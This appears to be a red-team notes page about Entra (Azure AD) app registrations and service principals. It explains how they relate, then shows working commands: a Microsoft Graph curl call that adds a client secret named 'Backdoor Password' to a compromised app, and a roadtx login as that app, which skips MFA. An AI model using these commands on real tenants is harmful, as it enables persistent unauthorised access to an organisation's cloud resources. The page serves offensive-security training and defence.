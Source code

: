 ```yaml
---
title: Enterprise Applications
---
```


Every application registered in Entra has two representations:

- Application Definition: present only in the home tenant of the app, visible under *App Registrations* in Azure portal
- Service Principal: present in every tenant where the app is used, visible under *Enterprise Applications* in Azure portal

> "An application has one application object in its home directory that is referenced by one or more service principals in each of the directories where it operates (including the application's home directory)" ([source](https://learn.microsoft.com/en-us/azure/active-directory/develop/how-applications-are-added#how-are-application-objects-and-service-principals-related-to-each-other))

The Service Principal is the identity an application operates under.

![API permissions between to applications ([source](https://csandker.io/2022/10/19/Untangling-Azure-Permissions.html))](./app-api-permissions.png)

After you compromised an app registration you can get the roles assigned to its service principal with [AppRegRoleFinder.ps1](https://gist.github.com/kfosaaen/e9a77a15ea7f26c05fd0f1a8ad85b0fd) ([source](https://twitter.com/kfosaaen/status/1633964967748665344)).

An App Registration supports multiple client secrets (application passwords).
A user that is owner or has the *Application Administrator* role over an app can add an application password ([source](http://web.archive.org/web/20231028213625/https://scribe.rip/@specterops/attacking-azure-azure-ad-part-ii-5f336f36697d)).
Application passwords can be used to authenticate as the service principal, MFA is usually not required.

~~~ bash
curl -sSf "https://graph.microsoft.com/v1.0/applications(appId='f072c4a6-b440-40de-983f-a7f3bd317d8f')/addPassword" -H 'Content-Type: application/json' -H "Authorization: Bearer $msgraph_token" -d '{"passwordCredential":{"displayName":"Backdoor Password"}}' | jq -r .secretText
~~~

Authenticate as the app.

~~~ bash
roadtx auth -c f072c4a6-b440-40de-983f-a7f3bd317d8f -p "$secret_text" -t defcorphq.onmicrosoft.com -r 'https://management.azure.com' --as-app
~~~

Applications can have *Application Permissions* and *Delegated Permissions*.
The former are permissions that are valid tenant-wide, the latter are permissions in the context of a user of the app which the user must grant explicitly to the app (OAuth Consent Grant).

References:

- [Untangling Azure Active Directory principals & access permissions](http://web.archive.org/web/20221026210553/https://csandker.io/2022/10/19/Untangling-Azure-Permissions.html) and [Untangling Azure Active Directory Permissions II: Privileged Access](https://web.archive.org/web/20230308114005/https://csandker.io/2022/11/10/Untangling-Azure-II-Privileged-Access.html)
